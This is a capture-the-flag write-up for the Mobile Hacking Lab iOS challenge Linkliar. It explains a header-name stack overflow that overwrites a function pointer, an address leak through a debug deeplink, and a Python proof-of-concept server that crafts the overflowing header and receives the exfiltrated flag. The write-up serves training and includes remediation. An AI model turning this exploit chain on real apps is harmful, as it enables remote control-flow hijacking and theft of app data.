





Mobile Hacking Lab iOS challenge write-up.

## Summary

A malicious server can hijack Linkliar's control flow by returning an HTTP header whose **name** is longer than 32 bytes. The app copies each header name into a fixed 32-byte stack buffer with no bound, overwriting a function pointer stored right after it, and then calls that pointer.

The full chain uses two deeplinks:

1. `linkliar://debug?url=<attacker>` enables debug mode and makes the app POST a debug report that leaks the runtime address of `flag()`.
2. `linkliar://scan?url=<attacker>` makes the app fetch the attacker's page. Its response carries a header name of 32 padding bytes plus the leaked address, which redirects the indirect call to `flag()`.
3. `flag()` POSTs the flag as JSON to the debug URL, i.e. back to the attacker.

| Item | Value |
| --- | --- |
| Target | Linkliar 1.0 (`com.mobilehackinglab.Linkliar`), iOS 15.8.2 jailbroken lab device |
| Bug class | Stack buffer overflow into an adjacent function pointer (CWE-121) |
| Primitive | Control of `pc` with `x0`/`x1` pointing to attacker-controlled data |
| Mitigations defeated | ASLR (info leak); stack canary not in the overwrite path |
| Flag | `MHL{h34d3r_s0_l0ng_th4t_1t_0v3rfl0ws}` |

## Recon

Static recon on Kali was enough to form the full hypothesis before touching the device. The app is a small, unstripped Objective-C binary with a custom URL scheme, a debug feature, a C helper named `flag` and imports of unsafe string functions.

| Check | Command | Finding |
| --- | --- | --- |
| URL scheme | `plistutil -i Info.plist` | `CFBundleURLSchemes = linkliar` |
| ATS | `plistutil -i Info.plist` | `NSAllowsArbitraryLoads = true`, so plain HTTP to any host works |
| Entitlements | `rabin2 -OC Linkliar` | `get-task-allow = true`, the app is debuggable |
| Binary info | `rabin2 -I Linkliar` | arm64 (not arm64e, so no PAC), PIE, canary, not encrypted, not stripped |
| Imports | `rabin2 -i Linkliar` | `strcpy`, `strncpy`, `strlen`, `malloc`, `snprintf` |
| Symbols | `rabin2 -s Linkliar` | C functions `_headerValidator` (0x100004b40) and `_flag` (0x100004b80) |
| Classes | `ipsw class-dump Linkliar` | `handleDeeplink:`, `handleDebugRequest:`, `generateDebugReport`, `parseHTTPHeaders:` |

The strings told most of the story: `scan`, `debug`, `debug?%@`, `DebugURL`, `addr`, `0x%016llx`, `[ERROR] Invalid header detected.`, and the flag split into three pieces next to `%s%s%s`, `POST`, `application/json` and `flag`. That last group suggested `flag()` builds the flag and POSTs it somewhere, so retrieving it needs the app to run that function, not just a strings dump.

## Attack surface: deeplinks

The app accepts two deeplinks, both taking an attacker-chosen URL in a `url` query item: `linkliar://scan?url=<URL>` and `linkliar://debug?url=<URL>`.

`-[SceneDelegate handleDeeplink:]` compares the scheme, host and path against CFStrings. r2 shows these as `"#"` because each address is a CFString struct, and the string pointer inside it is a chained fixup (`0x0020000000009fa3`). Its low bits are the offset from the image base, so the characters live at `0x100009fa3`:

| CFString | Points to | Length | Value |
| --- | --- | --- | --- |
| `0x100010278` | `0x100009fa3` | 4 | `scan` |
| `0x1000102b8` | `0x100009fae` | 3 | `url` |
| `0x1000102d8` | `0x100009fb2` | 5 | `debug` |
| `0x1000102f8` | `0x100009fb8` | 8 | `debug?%@` |
| `0x100010318` | `0x100009fc7` | 8 | `DebugURL` |

`url` was missing from the `rabin2 -zz` output because it is shorter than rabin2's default 4-character minimum.

**Scan path.** Host `scan` (or path `/scan`): the handler walks `queryItems`, takes the value of `url` and calls `performScanWithURL:`. The app shows a "Scan URL?" alert, and tapping **Scan Now** fetches the URL and analyses the response, including `parseHTTPHeaders:`.

**Debug path.** Host `debug`: the handler formats `debug?<query>` and calls `performDebugWithString:`, which reaches `-[ViewController handleDebugRequest:]`. That method re-parses the string with `NSURLComponents`, takes the `url` query item and calls:

- `enableDebugModeWithURL:`, which sets `debugModeEnabled = YES`, stores `debugURL` and saves it to NSUserDefaults under `DebugURL`
- `sendDebugReportToURLWithCompletion:`, which immediately POSTs the debug report to that URL

The debug link shows no UI at all. The only visible sign is in Settings (gear icon): `Debug Mode: ON` with the URL.

> **Note on opening deeplinks.** Pasting `linkliar://...` into the app's own URL text field does not work: that field is handed to `NSURLSession`, which does not know the scheme, so the app shows `[ERROR] Connection Error: unsupported URL`. Deeplinks must be opened by iOS, via `uiopen` on the jailbroken device or by typing them into Safari.



## Vulnerability: unbounded header name copy

`-[ViewController parseHTTPHeaders:]` (0x100006c60) copies every response header **name** into a 32-byte buffer with no length check, and the 8 bytes right after that buffer hold a function pointer that is called next. The header value is bounded; the name is not.

Reading the disassembly instruction by instruction gives the layout:

| Address | Instruction | Meaning |
| --- | --- | --- |
| 0x6c7c, 0x6c80 | `sub sp, sp, 7, lsl 12` / `sub sp, sp, 0x480` | 0x7480-byte stack frame |
| 0x6cfc | `add x22, sp, 0xd0` | An array starts at sp+0xd0 |
| 0x6d80, 0x6d84 | `mov w8, 0x128` / `smaddl x24, w26, w8, x22` | `x24 = &array[i]`, each entry 0x128 bytes |
| 0x6d24 | `cmp w26, 0x63` | At most 100 entries |
| 0x6d00..0x6d04, 0x6d88 | `add x19, ..., 0xb40` / `str x19, [x24, 0x20]` | `+0x20` = pointer to `_headerValidator`, stored before the copy |
| 0x6d54..0x6d6c | `cStringUsingEncoding:` with `w2 = 5` | Name and value converted as Latin-1, bytes 0x80 to 0xff kept 1:1 |
| 0x6d9c..0x6dac | `strb w8, [x24, x10]` loop until `ldrb` reads 0 | Name copied into `+0x00` with **no bound** |
| 0x6db8 | `strb wzr, [x24, x11]` | NUL written right after the last copied byte |
| 0x6dbc..0x6dc4 | `add x0, x24, 0x28` / `mov w2, 0xff` / `strncpy` | Value copied into `+0x28`, bounded to 255 bytes |
| 0x6dcc..0x6dd8 | `ldr x8, [x24, 0x20]` / `blr x8` | Calls `validator(name, value)` |

Reconstructed as C:

```c
struct header_entry {                    /* 0x128 bytes, 100 on the stack */
    char name[0x20];                     /* +0x00  unbounded copy        */
    int (*validator)(char *, char *);    /* +0x20  called right after    */
    char value[0x100];                   /* +0x28  strncpy(..., 0xff)    */
};
```

A name of 33 or more bytes overwrites `validator`. The stack canary sits at `[x29-0x60]`, at the far end of the frame, so it is never touched and `canary true` does not stop this.

The intended validator, `_headerValidator(name, value)`, returns 1 only when `strlen(name) <= 0x1f` and `strlen(value) < 0x100`, so a legitimate long name is just reported as `[ERROR] Invalid header detected.`. The check runs after the copy, which is too late.

### Why `flag()` is a usable target

`_flag(x0)` (0x100004b80) takes the same first argument:

1. It returns early unless `strlen(x0) >= 0x20`. An overflowing name always passes, because it is at least 33 bytes.
2. It reads `DebugURL` from NSUserDefaults and builds an `NSURL` from it.
3. It builds the flag from its three pieces with `snprintf("%s%s%s")`.
4. It POSTs `{"flag": "<flag>"}` as JSON to that URL.

So the flag only leaves the app if debug mode was enabled first, and it goes to whichever URL the attacker set.

## Info leak: the debug report

The debug report hands the attacker the slid address of `flag()` directly, so no slide arithmetic is needed. `-[ViewController generateDebugReport]` builds an array of `{"addr": "0x%016llx"}` entries from raw code pointers.

| Index | Source in `generateDebugReport` | Address of |
| --- | --- | --- |
| 0 | `adrp/add ... 0xb40` at 0x74f8 | `_headerValidator` |
| 1 | `adrp/add ... 0xb80` at 0x756c | **`_flag`** |
| 2 to 6 | `methodForSelector:` | IMPs of `scanURL:`, `validateAndScanURL:`, `parseHTTPHeaders:`, `analyzeResponse:...`, `handleDebugRequest:` |
| 7 to 11 | GOT entries | `malloc`, `free`, `printf`, `strcpy`, `strlen` (dyld shared cache) |

`-[ViewController sendDebugReport:toURL:completion:]` POSTs it as pretty-printed JSON with `User-Agent: Linkliar/1.0 DebugAgent`. The leak captured during the run:

```json
{
  "debug_data" : [
    { "addr" : "0x0000000102974b40" },
    { "addr" : "0x0000000102974b80" },
    { "addr" : "0x0000000102975940" },
    ...
    { "addr" : "0x00000001db7aff20" }
  ],
  "app" : "Linkliar",
  "timestamp" : 1794937291.7429929,
  "device" : "iOS"
}
```

Sanity check: entry 1 minus entry 0 is 0x40, matching `0x100004b80 - 0x100004b40` in the binary. The image slide for this launch was therefore `0x102974b80 - 0x100004b80 = 0x2970000`.

ASLR is re-randomised on every launch, so the leak is only valid for the current process. The leak and the scan have to happen without the app being restarted in between.

## Exploit construction

The payload is a single response header whose name is 32 bytes of padding followed by the little-endian bytes of the leaked `flag()` address, up to but not including its first zero byte:

```
'A' x 32 | 80 4b 97 02 01 | ": x\r\n"
```

### Why a 1-byte partial overwrite fails

`_headerValidator` (`base+0x4b40`) and `_flag` (`base+0x4b80`) differ only in byte 0 (0x40 vs 0x80), which looks like a free partial overwrite with no leak. It does not work: after copying the name, the loop writes a NUL at `name[len]`. With a 33-byte name, that NUL lands on byte 1 of the pointer, which is 0x0b, 0x4b, 0x8b or 0xcb depending on the slide and never zero. The pointer becomes `base+0x0080` and the call crashes. This is why the chain needs the leak.

### Why the high zero bytes are not a problem

The slid address `0x0000000102974b80` is `80 4b 97 02 01 00 00 00` in memory. The copy stops at the first NUL in the name, so zero bytes cannot be sent. They do not need to be: the payload sends bytes 0 to 4, and the loop's own NUL terminator writes byte 5. Bytes 6 and 7 are already zero, because the original pointer (`_headerValidator`) lives in the same image and shares every byte from byte 1 upwards.

### Byte constraints

- **Encoding.** Names go through `cStringUsingEncoding:` with Latin-1 (5), so 0x80 to 0xff survive unchanged. The server must also send them as raw bytes; Python's `http.server` writes Latin-1, but the PoC writes the whole response by hand to be exact.
- **Breaking bytes.** CR (0x0d), LF (0x0a) and `:` in the address would end or split the header line. The server checks for them; if the slide produces one, relaunch the app and leak again.
- **Control bytes.** Byte 4 is always 0x01, because the image base is `0x1xxxxxxxx`, and byte 3 is often small too. CFNetwork accepted `0x02` and `0x01` in a header name on iOS 15.8.2, which the successful run confirms.

### PoC server

One Python script ([`linkliar_srv.py`](/assets/files/mhl-linkliar/linkliar_srv.py)) handles the whole chain in a single process, so the leak is kept in memory between requests:

| Route | Role |
| --- | --- |
| `POST /report` with `debug_data` | Parse entry 1 as the `flag()` address, check the 0x40 delta, build and check the header name |
| `GET /scan` | Return 200 with the crafted header name; return 503 if no leak has arrived yet |
| `POST /report` with `flag` | Print the flag |

The header-building core:

```python
PAD = b"A" * 0x20

def build_name(addr: int) -> bytes:
    tail = bytearray()
    for b in addr.to_bytes(8, "little"):
        if b == 0:
            break          # the app's NUL terminator writes this byte
        tail.append(b)
    return PAD + bytes(tail)

# raw response so the name bytes go out exactly as built
resp = (b"HTTP/1.1 200 OK\r\n"
        b"Content-Type: text/html\r\n"
        b"Content-Length: " + str(len(body)).encode() + b"\r\n"
        b"Connection: close\r\n"
        + build_name(flag_addr) + b": x\r\n\r\n" + body)
```

The server was first tested offline with a fake address (`--addr 0x102b04b80`) and `curl -s -i http://127.0.0.1:8000/scan | od -c` to confirm the exact bytes on the wire before using any device time.

## Port forwarding

The phone and Kali are on the lab VPN, but the simplest and most reliable setup is an SSH **reverse** tunnel: the phone talks to its own `127.0.0.1:8000`, which SSH forwards back to the server on Kali. This avoids depending on the VPN routing or firewall between the two, and keeps the attacker URL as a clean loopback address.

```
# one terminal, kept open for the whole run
ssh -R 8000:127.0.0.1:8000 root@<device-ip>
```

`-R 8000:127.0.0.1:8000` means "listen on port 8000 on the device, forward to 127.0.0.1:8000 on Kali". Both deeplinks then use `http://127.0.0.1:8000/...`. Check it from the device before running the chain:

```
curl http://127.0.0.1:8000/report -d '{}'    # should print: ok
```

A normal (non-tunnelled) run would instead use Kali's VPN IP (`ip -br a show tun0`) in both deeplinks, with the server listening on `0.0.0.0`.

## Exploitation

All steps happen in one app launch. The lab device was an iOS 15.8.2 jailbroken phone reached over SSH, with the reverse tunnel above.

Run order:

1. Kali: `python3 linkliar_srv.py` (no `--addr`, so it waits for the real leak).
2. Device: launch Linkliar, then open the debug deeplink (`uiopen 'linkliar://debug?url=http://127.0.0.1:8000/report'`, or from Safari). This is silent; Settings shows `Debug Mode: ON`.
3. Kali: the server prints the report and `[+] flag = 0x...`.
4. Device: open the scan deeplink and tap **Scan Now**.
5. Kali: the server serves the crafted header and receives the flag.

Two dead ends worth noting, since both wasted time:

- Pasting `linkliar://...` into the app's own URL field gives `unsupported URL` (see above): that field is handed to `NSURLSession`, which does not know the scheme. Deeplinks must be opened by iOS (`uiopen` or Safari).
- Running the scan before the debug step returns 503 from the server (no leak yet), and the app shows `[ERROR] Error response (Status: 503)`. The debug link has to go first.



The scan step prompts a confirmation alert; tapping **Scan Now** triggers the fetch and the header parse.



Once the debug leak has arrived, the server serves a real 200 response with the crafted header name. The app shows an ordinary-looking scan result while, under the hood, the overwritten pointer sends execution to `flag()`.



On the server, the chain completes: the debug report with the leaked addresses, then the final POST from `flag()` carrying the flag.



Evidence from the successful run, the final POST from `flag()` back to the server:

```
=== POST /report ===
User-Agent: Linkliar/1 CFNetwork/1335.0.3.4 Darwin/21.6.0
Content-Type: application/json
{"flag":"MHL{h34d3r_s0_l0ng_th4t_1t_0v3rfl0ws}"}

******** FLAG RECEIVED: MHL{h34d3r_s0_l0ng_th4t_1t_0v3rfl0ws} ********
```

The header name actually sent (`od -c` on the server side) was 32 `A` bytes then `80 4b 97 02 01`, matching the leaked `flag` address `0x102974b80` with its three high zero bytes supplied by the copy terminator and the shared image bytes.

**Flag:** `MHL{h34d3r_s0_l0ng_th4t_1t_0v3rfl0ws}`

## Impact

The bug gives a remote attacker control of `pc` inside the app process. The victim only has to open a link and tap "Scan Now"; the attacker's web server does the rest.

At the moment of the `blr` the attacker controls:

- `pc`: any address that can be written as up to 5 non-zero bytes plus the NUL trick
- `x0`: a pointer to the header name (attacker bytes)
- `x1`: a pointer to the header value (up to 255 attacker bytes)

That is a call to any reachable function with two pointer arguments pointing to attacker data. The report also leaks `malloc`, `free`, `printf`, `strcpy` and `strlen`, which live in the dyld shared cache. The cache shares one slide across all processes, so those leaks plus offsets from the matching shared cache give the address of any system library function, turning "call `flag()`" into "call arbitrary library code".

In this lab, calling `flag()` demonstrates the primitive: the attacker chooses the call target and receives data back from the app.

Classic shellcode is not possible on iOS. Code signing means only signed pages execute, so injected bytes cannot run (`nx false` in rabin2 is irrelevant). The app sandbox also blocks `fork`, `exec` and `posix_spawn`, so there is no `system("/bin/sh")`. Real-world exploitation of this primitive would use code reuse (existing functions, ROP/JOP) within the app's sandbox, with access to everything the app can reach: its data container, its keychain items and its network identity.

## Remediation

| Issue | Fix |
| --- | --- |
| Unbounded name copy | Copy with an explicit bound (`strlcpy(entry->name, src, sizeof entry->name)`) or reject names of 32 bytes or more before copying |
| Validation after the copy | Run the length checks on the source string before any copy |
| Function pointer next to a buffer | Call the validator directly instead of through a per-entry pointer, or keep pointers away from writable buffers |
| C buffers for header data | Work on the `NSString` objects from `allHeaderFields` instead of converting to C strings |
| Debug mode settable by deeplink | Remove debug features from release builds; never accept a report URL from an external link |
| Address leak in debug report | Never send code pointers off the device |
| arm64 without PAC | Build for arm64e so pointer authentication protects code pointers |

## Tools and lessons

**Tools:** `ipsw class-dump`, `rabin2` (radare2) for headers, imports, symbols and strings, r2 for disassembly, a hand-written Python server, `uiopen` and SSH on the jailbroken device. `debugserver` and lldb were set up but not needed: the chain is self-proving, since success shows up as the flag arriving at the server.

**Lessons:**

- Memory corruption in an Objective-C app almost always sits in a C-style helper. Here the Objective-C `NSString` header name was converted to a C string and copied into a fixed buffer. The `strcpy`/`strncpy`/`strlen` imports flagged this before any disassembly.
- A pointer stored next to a stack buffer and called soon after is the real target. The stack canary protects only the saved return address, so `canary true` said nothing about this path.
- Do the device-time-expensive work offline. The server was written and byte-tested against a fake address on Kali first, so the device session was only a few deeplinks.
- The leak and the write must share one launch because of ASLR. Treating them as one indivisible step avoids chasing stale addresses.
- On iOS, control-flow hijack is the realistic goal, not shellcode. Code signing and the sandbox push exploitation toward code reuse.
